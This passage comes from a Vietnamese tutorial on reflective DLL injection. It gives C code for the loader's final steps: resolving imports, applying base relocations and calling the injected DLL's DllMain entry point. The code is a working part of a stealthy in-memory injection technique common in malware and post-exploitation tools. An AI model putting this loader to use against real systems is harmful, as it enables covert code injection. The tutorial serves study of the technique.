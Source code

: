                 DEREF(uiValueA) = (ULONG_PTR)pGetProcAddress((HMODULE)uiLibraryAddress, (LPCSTR)((PIMAGE_IMPORT_BY_NAME)uiValueB)->Name);
            }
            uiValueA += sizeof(ULONG_PTR);
            if (uiValueD)
                uiValueD += sizeof(ULONG_PTR);
        }

        uiValueC += sizeof(IMAGE_IMPORT_DESCRIPTOR);
    }
    ```

  - Bước 5: Xử lý bảng relocation của dll

    ```C
    uiLibraryAddress = uiBaseAddress - ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.ImageBase;

    uiValueB = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];

    if (((PIMAGE_DATA_DIRECTORY)uiValueB)->Size)
    {
        uiValueC = (uiBaseAddress + ((PIMAGE_DATA_DIRECTORY)uiValueB)->VirtualAddress);

        while (((PIMAGE_BASE_RELOCATION)uiValueC)->SizeOfBlock)
        {
            uiValueA = (uiBaseAddress + ((PIMAGE_BASE_RELOCATION)uiValueC)->VirtualAddress);

            uiValueB = (((PIMAGE_BASE_RELOCATION)uiValueC)->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(IMAGE_RELOC);

            uiValueD = uiValueC + sizeof(IMAGE_BASE_RELOCATION);

            while (uiValueB--)
            {
                if (((PIMAGE_RELOC)uiValueD)->type == IMAGE_REL_BASED_DIR64)
                    *(ULONG_PTR*)(uiValueA + ((PIMAGE_RELOC)uiValueD)->offset) += uiLibraryAddress;
                else if (((PIMAGE_RELOC)uiValueD)->type == IMAGE_REL_BASED_HIGHLOW)
                    *(DWORD*)(uiValueA + ((PIMAGE_RELOC)uiValueD)->offset) += (DWORD)uiLibraryAddress;
                else if (((PIMAGE_RELOC)uiValueD)->type == IMAGE_REL_BASED_HIGH)
                    *(WORD*)(uiValueA + ((PIMAGE_RELOC)uiValueD)->offset) += HIWORD(uiLibraryAddress);
                else if (((PIMAGE_RELOC)uiValueD)->type == IMAGE_REL_BASED_LOW)
                    *(WORD*)(uiValueA + ((PIMAGE_RELOC)uiValueD)->offset) += LOWORD(uiLibraryAddress);

                uiValueD += sizeof(IMAGE_RELOC);
            }

            uiValueC = uiValueC + ((PIMAGE_BASE_RELOCATION)uiValueC)->SizeOfBlock;
        }
    }
    ```

  - Bước 6: Call hàm `DllMain()` hay chính là entry point của dll

    ```C
    uiValueA = (uiBaseAddress + ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.AddressOfEntryPoint);
    pNtFlushInstructionCache((HANDLE)-1, NULL, 0);
    #ifdef REFLECTIVEDLLINJECTION_VIA_LOADREMOTELIBRARYN
        ((DLLMAIN)uiValueA)((HINSTANCE)uiBaseAddress, DLL_PROCESS_ATTACH, lpParameter);
    #else
        ((DLLMAIN)uiValueA)((HINSTANCE)uiBaseAddress, DLL_PROCESS_ATTACH, NULL);
    #endif
    ```
